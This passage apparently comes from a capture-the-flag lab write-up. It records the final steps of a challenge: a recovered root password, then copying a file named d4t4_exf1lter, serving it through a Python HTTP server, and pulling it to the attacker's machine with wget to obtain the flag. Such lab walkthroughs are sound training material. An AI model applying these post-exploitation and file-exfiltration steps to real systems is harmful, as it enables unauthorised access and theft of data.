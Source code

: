 ```shell
...
Started: Wed Jan  4 19:44:19 2023
Stopped: Wed Jan  4 21:52:37 2023
```
And the root password is `yetcfm` an that is thefirst part of the directory name of the PDF file `yetcfm@357`
And I copy the `d4t4_exf1lter` file to the /tmp directory:
```shell
root@052236eb2496:/# cp /usr/share/doc/file/yetcfm@357/d4t4_exf1lter /tmp
```
And I allow that other users can read the file:
```shell
root@052236eb2496:/tmp# chmod +r d4t4_exf1lter
```
And with the web user, I start an HTTP server with `Python`:
```shell
web@xptosystem:/tmp$ python3 -m http.server 8001 &
```
And in my attack machine, download the file with the `wget` command:
```shell
$ wget 192.168.2.9:8001/d4t4_exf1lter
```
When I change the name to add the pdf extension:
```shell
$ mv d4t4_exf1lter d4t4_exf1lter.pdf
```
Then I open the file and get the flag:
